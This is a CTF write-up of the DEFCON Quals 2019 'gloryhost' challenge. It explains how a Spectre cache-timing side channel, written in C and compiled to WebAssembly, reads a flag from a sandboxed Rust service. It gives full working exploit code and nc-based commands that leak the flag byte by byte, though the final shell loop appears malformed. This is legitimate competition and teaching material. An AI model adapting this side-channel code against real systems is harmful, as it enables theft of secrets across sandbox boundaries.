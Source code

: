 ```yaml
---
layout: post
title: DEFCON Quals 2019, Gloryhost
date:   2019-05-13 18:43:49 -0400
categories: ctf defcon quals
comments: true
---
```


<img src="/assets/gloryhost.jpg">

Author: mattypiper

Contributors: mattypiper, fringe

## Description

gloryhost is a 64-bit Linux ELF network service written in Rust. It accepts compiled WebAssembly programs on port 9999
and executes the wasm program in a seccomp filtered sandbox. After figuring out how to generate a wasm program written in
C using wasi-sdk, we were able to load our code into the service using base64. The service then responds with an error message expecting
a certain export that was not found:

> your code makes me feel funny: unable to resolve entry point: Export not found: this_is_what_ive_got

Defining this function in C and setting it as the entry point allows the code to execute.

```c
int this_is_what_ive_got()
{
    return 0;
}
```

```bash
/opt/wasi-sdk/bin/clang -o test.wasm -Wl,-e,this_is_what_ive_got test.c
```

Gloryhost appears to print the return value of your function and execute the C code.
Attempting to execute libc functions such as `open()` and `read()`
results in the service dying prematurely with a trap:

> your code makes me feel funny: unable to execute entry point: WebAssembly trap occured during runtime: unknown

The service disables syscalls with seccomp, hence the WebAssembly trap. At this point we discovered a set of functions in the
gloryhost namespace that were interesting.

1. `wasi_debug_flush` executes the x86 clflush instruction on the pointer argument
1. `wasi_check_data`, `wasi_get_data_size` and the`wasi_get_data*` functions were recognized as a set of functions that implement
a few of the "primitives" required to execute the [Spectre](https://spectreattack.com/spectre.pdf) attack (speculative execution cache side channel).
1. `wasi_debug_read` performs a C-style read of the pointer argument, required for Spectre.
1. `wasi_debug_ts` executes the x86 `rdtsc` instruction, a timing instrument that can be used to execute the Spectre attack.

Inspection with strace and gdb revealed that the challenge flag was being loaded into the .bss entry `_data6` at 0xe86120.
This memory is inaccessible using the `wasi_get_data` functions, as they were only provided for memory areas data2 thru data5.

At this point, we laid out the plan: Call the `gloryhost::wasi` functions from our C code in a Spectre-style attack
to read the flag from memory.

To call the external code, we had to define the functions as `extern` and use the linker directive 
`-Wl,--allow-undefined` to avoid link errors. Getting the function arguments and return values to line up
was aided by the dynamic WebAssembly linker built into gloryhost, which printed helpful messages such as:

> your code makes me feel funny: unable to resolve entry point: Parameters of type [] did not match signature [I32] -> [I32]

For getting the flag itself, the only instrument provided to send data back to the client was via the 32-bit return value
of the `this_is_what_ive_got` function. For example, returning 0xdeadbeef from `this_is_what_ive_got` would print:

> YOU'VE GOT deadbeef

We based our Spectre implementation on an
[existing Spectre PoC from ErikAugust](https://gist.github.com/ErikAugust/724d4a969fb2c6ae1bbd7b2a9e3d4bb6).

As we implemented the Spectre attack, we had to take care to avoid using pointers or array indexing. This was because
the wasi-sdk only supported 32-bit mode. So we wrote the function prototypes replacing pointers with uint64_t, as follows:

```c
extern int64_t debug_ts();  // rdtsc
extern void debug_flush(uint64_t);  // clflush
extern void debug_read(uint64_t);
extern void check_data(int32_t);  // "victim function"
extern uint64_t get_data_size();
extern uint64_t get_data5();
```

And after some more thought, we realized that direct pointer/array accesses would not even work as expected
when crossing the boundary from WebAssembly to C/amd64.

Anyway, after tuning the cache timing threshold, we were able to read the flag one byte at a time (we kept
the code from the PoC that also generated a score and put that in the return value as well to be able to gauge
the confidence of each flag byte).

## Solution

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <errno.h>

extern int64_t debug_ts();  // rdtsc
extern void debug_flush(uint64_t);  // clflush
extern void debug_read(uint64_t);
extern void check_data(int32_t);  // "victim function"
extern uint64_t get_data_size();
extern uint64_t get_data5();

#define CACHE_HIT_THRESHOLD (600) /* assume cache hit if time <= threshold */

/* aliases from github poc to gloryhost:
     array2 = get_data5()
     array1_size = get_data_size()
     victim_function = check_data()
     array1 = get_data3()
     flag is in _data6  */

void readMemoryByte(uint32_t malicious_x, uint8_t value[2], int score[2])
{
    int results[256];
    int tries, i, j, k, mix_i;
	unsigned int junk = 0;
    uint64_t time1, time2;
    size_t training_x, x;
    volatile uint8_t* addr;

    for (i = 0; i < 256; i++)
        results[i] = 0;

    for (tries = 999; tries > 0; tries--) {
        // flush data5 from cache
        for (int i = 0; i < 256; i++) {
            uint64_t p = get_data5();
            p += i*512;
            debug_flush(p);
        }

        // 30 loops, 5 training runs per attack
        training_x = tries % 16; // 16 == nelements(array1_size)
        for (j = 29; j >= 0; j--) {
            debug_flush(get_data_size());

            // delay
            for (volatile int z = 0; z < 100; z++);

            // bit twiddling
            x = ((j % 6) - 1) & ~0xFFFF; /* Set x=FFF.FF0000 if j%6==0, else x=0 */
            x = (x | (x >> 16)); /* Set x=-1 if j%6=0, else x=0 */
            x = training_x ^ (x & (malicious_x ^ training_x));

            check_data(x);
        }

        // time reads
        for (int i = 0; i < 256; ++i) {
            mix_i = ((i * 167) + 13) & 255;

            uint64_t addr  = get_data5();
            addr += mix_i * 512;
            time1 = debug_ts();
            debug_read(addr);
			time2 = debug_ts() - time1;
			if (time2 <= CACHE_HIT_THRESHOLD)
				results[mix_i]++;
        }

		j = k = -1;
		for (i = 0; i < 256; i++)
		{
			if (j < 0 || results[i] >= results[j])
			{
				k = j;
				j = i;
			}
			else if (k < 0 || results[i] >= results[k])
			{
				k = i;
			}
		}
		if (results[j] >= (2 * results[k] + 5) || (results[j] == 2 && results[k] == 0))
			break;
	}

	value[0] = (uint8_t)j;
	score[0] = results[j];
	value[1] = (uint8_t)k;
	score[1] = results[k];
}

int this_is_what_ive_got()
{
	uint32_t malicious_x = 0x100 + MALOFFSET; // use compiler argument to "step" this index
	int score[2], len = 2;
	uint8_t value[2];
	readMemoryByte(malicious_x, value, score);
	return (value[0] << 24) | (value[1] << 16) | ((score[0] & 0xff)<<8) | (score[1] & 0xff);
}

int main() {}
```

Compile with:

```sh
/opt/wasi-sdk/bin/clang -DMALOFFSET=1 -Ofast -o solve.wasm \
    -Wl,-e,this_is_what_ive_got -Wl,--allow-undefined solve.c
```

Leak one byte at a time with a script:
```sh
for i in `seq 0 40`; do \
    nc -N gloryhost.quals2019.oooverflow.io 9999; done | \
    /opt/wasi-sdk/bin/clang -DMALOFFSET=$i -Ofast -o solve.wasm \
    -Wl,-e,this_is_what_ive_got -Wl,--allow-undefined solve.c && \
    cat solve.wasm | base64 -w0 | nc -N localhost 9999 | egrep '^YOU' | cut -d' ' -f3 | cut -c1-2| xxd -r -p; \
    done
```

